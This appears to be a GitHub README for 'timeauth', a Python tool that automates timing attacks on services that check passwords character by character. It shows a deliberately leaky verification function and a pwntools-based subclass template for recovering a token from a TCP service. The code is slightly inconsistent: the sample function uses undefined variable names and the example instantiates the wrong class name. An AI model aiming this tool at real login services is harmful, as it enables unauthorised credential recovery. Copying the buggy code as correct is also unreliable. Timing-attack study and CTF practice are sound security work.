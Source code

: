 # timeauth

Python Time Based Authentication Attack Tool

## Development

You can contribute by sending merge requests and/or issues on this github opensource project.

## Demo:

![Alt Text](./demo.gif)

## Usage:

### Installation

You can install this package by launching:

```sh
pip install timeauth
```

### Examples

Suppose that we have a listenning tcp service on `localhost:1337` waiting for a password input. 
What if the code behind this TCP service have been done by a weird developer and checks your input char by char
and sleeping each time it checks your char ( or do a BIG action on his server that take some time ).

```sh
> nc localhost 1337
Hello !
password please: SakiiR
Bad Password ! BYE BYE
[!] Closed connection ..
```

And the following backend password verification:

```py
def check_password(input, real):
    if(len(input_flag) == 0):
            return False
        for left, right in zip_longest(input_flag, flag):
            if(left != right):
                return False
            sleep(0.25) # prevent brute forcing
        return True
```

This package has been made to make exploitation of this kind of service faster by implementating a Single Class.

exemple:

```py
from pwn import remote, context
from timeauth import TimeAuthChecker


class ExampleChecker(TimeAuthChecker):

    def __init__(self):
        super(self.__class__, self).__init__(
            charset="0123456789",
            token_length=10,
            hidden_char="*"
        )

    def request(self):

        context.log_level = 'error'
        s = remote('localhost', 1337)
        s.recvuntil(':')
        s.sendline(self.get_token())
        s.readall()
        s.close()
        context.log_level = 'info'

if __name__ == "__main__":
    a = RootmeChecker()
    a.process()
    a.print_token()
```


